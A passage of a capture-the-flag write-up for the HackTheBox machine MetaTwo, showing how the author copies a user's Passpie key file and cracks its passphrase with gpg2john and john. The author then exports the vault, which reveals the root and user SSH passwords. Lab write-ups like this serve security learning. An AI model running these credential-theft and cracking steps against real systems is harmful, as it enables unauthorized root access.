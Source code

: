 ### Escalate to `root` user using credentials discovered in Passpie

#### Exfiltrate Passpie `.keys` file and crack it's passphrase
`linpeas.sh` has found `/home/jnelson/.passpie/.keys`
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo]
└─$ scp jnelson@metapress.htb:~/.passpie/.keys . && \
csplit -z .keys '/-----BEGIN PGP PRIVATE KEY BLOCK-----/' '{*}' --suffix-format=%02d.key --prefix=key_ && \
gpg2john key_01.key > gpg.hash && \
john gpg.hash --wordlist=/usr/share/wordlists/rockyou.txt
jnelson@metapress.htb's password: 
.keys                                                                                                                                                             100% 5243    98.2KB/s   00:00    
2509
2734

File key_01.key
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:11 DONE (2025-06-14 20:34) 0.08354g/s 14.03p/s 14.03c/s 14.03C/s peanut..222222
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

#### Use discovered passphrase to export `root` user password
```
jnelson@meta2:~$ passpie export vault.pass && cat vault.pass
Passphrase: 
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```
